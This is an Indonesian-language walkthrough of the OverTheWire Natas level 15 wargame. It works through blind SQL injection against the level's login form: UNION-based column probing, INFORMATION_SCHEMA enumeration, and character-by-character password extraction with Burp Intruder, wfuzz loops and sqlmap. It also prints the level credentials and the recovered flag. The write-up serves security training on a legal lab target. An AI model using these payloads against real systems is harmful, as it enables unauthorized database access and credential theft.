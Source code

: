 ```yaml
---
layout: default
test_level15
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas15 \
URL:      http://natas15.natas.labs.overthewire.org

# solve
- login with cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
- lalu saya melihat source codenya
  ![alt text](docs/images/image-38.png)
- disini saya mencoba beberapa parameter terlebih dahulu seperti
  ```bash
  "
  '
  ```
- dan ketika saya coba dengan '"' ini dikatakan error
  ![alt text](docs/images/image-39.png)
- ini adalah penggambaran sqlnya
  ```bash
  SELECT * FROM users where username = "<input>"
  SELECT * FROM users where username = "natas16" "1" = "1"

  ## mencari jumlah user ketemu di 1,2
  ## menggunakan tanda komen di akhir agar ; di php bisa dihilangkan
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1;#;
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1, 2;#;
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1, 2, 3, 4, 5;#";
  ## 1   => not exits FALSE
  ## 1,2 => exits TRUE

  ## karena sudah ketemu bahwa terdapat 2 kolom maka kita perlu UNION keduanya dari information schema
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables;#";
  ## TRUE

  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "a";#";
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "b";#";
  ## FALSE
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g";#";

  ## kita sudah tau ada tabble yang dimulai dari huruf g
  ## dan sebenernya ini tidak terlalu akurat
  ## jadi saya mencoba tambahan agar akurat
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" \
  AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#";
  ## FALSE

  ## dan ketika saya coba 1,1 u berhasil
  ## 2,1 s berhasil
  ```

- dan ini adalah sql yang saya coba
  ```bash
  natas16" "1" = "1
  fafa" UNION ALL SELECT 1;#
  fafa" UNION ALL SELECT 1, 2;#
  fafa" UNION ALL SELECT 1, 2, 3, 4, 5;#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables;#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "a";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#
  
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,1,1) = "g";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,1,1) = "u";#
  ## true  

  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,2,1) = "u";#
  ```

## automation with burp suite
- saya mencoba burp suite intruder untuk mmempermudah mencari nama tablenye
  ![alt text](docs/images/image-40.png)
- setelah itu saya mengatur menjadi cluster bomb attack
  ![alt text](docs/images/image-41.png)
  - payload position = 1
  - payload type     = numbers
  - from 1 to 10
  ![alt text](docs/images/image-42.png)
  - payload position = 2
  - payload type     = brute force
  - minlength=1, maxlength=2
- lalu start attack dan tunggu hingga proses selesai
  ![alt text](docs/images/image-43.png)
- jika sudah kita bisa lakukan grep dengan option ini
  ![alt text](docs/images/image-44.png)
- jangan lupa ubah urutan ininya menjadi yang atas biar user exits tampil di atas jika sudah kita berhasil mendapatkan
  ![alt text](docs/images/image-45.png)
  ```users```

- setelah kita mengetahui table users saya mencari informasi lainya
  ```bash
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.columns WHERE table_name='users' AND SUBSTRING(column_name,1,1)='a';#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.columns WHERE table_name='users' AND SUBSTRING(column_name,1,1)='p';#
  ```
- lalu saya mencoba brute force otomatis lagi pake burp suite
  ![alt text](docs/images/image-47.png)
- jangan lupa di grep lagi
- jika sudah nanti outputnya akan seperti ini
  ![alt text](docs/images/image-48.png)
- lalu saya split responseya di cyberchef
  
  ```
  puasesrsnwaomrde
  1122334455667788

  password
  username
  ```

## brute force pass with wfuzz
- setelahh kita mengetaui nama column, kita hanya perlu membruteforce passwordnya
  ```bash
  fafa" UNION ALL SELECT 1,2 FROM users WHERE username = 'natas16' AND SUBSTRING(password,1,1) = 'a';#
  ```
- lalu saya coba melakukan brute force menggunakan burp suite dan mencoba menggunakan wfuzz
  ```bash
  echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars
  echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\nA\nB\nC\nD\nE\nF\nG\nH\nI\nJ\nK\nL\nM\nN\nO\nP\nQ\nR\nS\nT\nU\nV\nW\nX\nY\nZ\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars

  wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d 'username=fafa" UNION ALL SELECT 1,2 FROM users WHERE username = "natas16" AND SUBSTRING(password,1,1) = "FUZZ";#' natas15.natas.labs.overthewire.org/index.php | grep -v 920
  # got 1 == h

  for i in {1..33}; do echo $i; done
  # 1
  # ...

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" \
  -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done
  # h
  # p
  # ...

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done | grep 913
  # filternya ganda

  # namun terdapat masala ketika kita coba gunakan itu kemungkinann besar output hhuruf kecil dan besar akan sama begitu pula dengan length datanya kia perlu menambakan BINARY di sebelum = "a"
  # = \"FUZZ\" => = BINARY \"FUZZ\"
  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done | grep 913

  cat > wfuzz << EOF
  ---isi dengan output tadi
  EOF 

  cat wfuzz | awk '{print $9}' | tr -d "\"" | tr -d "\n"
  # hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
  ```

## brute force with burp suite
- tambahhkan intruder seperti biasa dengan cluster bom attack typenya
  - payload 1, number, from 1 to 33
  - payload 2, bruteforce "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUFWXYZ"
  ![alt text](docs/images/image-49.png)
- setelah menunggu hasilnya seperti ini
  

## automation with wfuzz (gagal)
```
wfuzz -z file,/usr/share/wordlists/sqlmap.txt -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -d "username=FUZZ"
wfuzz -z file,/usr/share/wordlists/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -d "username=FUZZ"

# wfuzz
echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars


# nyoba sqlmap namun tidak berhasil
sqlmap -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" --data="username=FUZZ" --dbs
sqlmap -u "http://natas15.natas.labs.overthewire.org" --headers="Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" --data="username=FUZZ" --dbs --batch --flush-session -v 3
```

# flag
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo